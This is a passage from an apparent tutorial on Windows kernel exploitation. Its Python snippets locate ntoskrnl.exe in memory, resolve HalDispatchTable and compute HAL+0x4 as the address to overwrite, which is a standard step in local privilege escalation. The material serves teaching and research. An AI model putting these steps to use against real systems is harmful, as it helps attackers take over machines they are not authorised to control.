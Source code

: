 ```python

        # Print update to show address of ntoskrnl.exe
        print "[+] Found address of ntoskrnl.exe at: {0}".format(hex(base_address))

        # It assumed the information needed from the for loop has been found if the program has reached execution at this point.
        # Stopping the for loop to move on.
        break
 ```
 
This is a snippet of code that essentially will loop through the array where all of the base addresses have been exported to, and search for `ntoskrnl.exe` via `GetDeviceDriverBaseNameA()`. Once that has been found, the address will be stored.
 
LoadLibraryExA()
---
 ```python
# Now that all of the proper information to reference HAL has been enumerated, it is time to get the location of HAL and HAL 0x4
# NtQueryIntervalProfile is an undocumented Windows API function that references HAL at the location of HAL +0x4.
# HAL +0x4 is the address we will eventually need to write over. Once HAL is exported, we will be most interested in HAL + 0x4

# Beginning enumeration
kernel_handle = kernel32.LoadLibraryExA(
    current_name,                       # lpLibFileName (specifies the name of the module, in this case ntlkrnl.exe)
    None,                               # hFile (parameter must be null)
    0x00000001                          # dwFlags (DONT_RESOLVE_DLL_REFERENCES)
)

# Error handling if function fails
if not kernel_handle:
    print "[+] LoadLibraryExA() function failed!"
    sys.exit(-1)
```

In this snippet, `LoadLibraryExA()` receives the handle from `GetDeviceDriverBaseNameA()` (which is `ntoskrnl.exe` in this case). It then proceeds, in the snippet below, to pass the handle loaded into memory (which is still `ntoskrnl.exe`) to the function `GetProcAddress()`.

GetProcAddress()
---
```python
# Getting HAL Address
hal = kernel32.GetProcAddress(
    kernel_handle,                      # hModule (handle passed via LoadLibraryExA to ntoskrnl.exe)
    'HalDispatchTable'                  # lpProcName (name of value)
)

# Subtracting ntoskrnl base in user mode
hal -= kernel_handle

# Add base address of ntoskrnl in kernel mode
hal += base_address

# Recall earlier we were more interested in HAL + 0x4. Let's grab that address.
real_hal = hal + 0x4

# Print update with HAL and HAL + 0x4 location
print "[+] HAL location: {0}".format(hex(hal))
print "[+] HAL + 0x4 location: {0}".format(hex(real_hal))
```

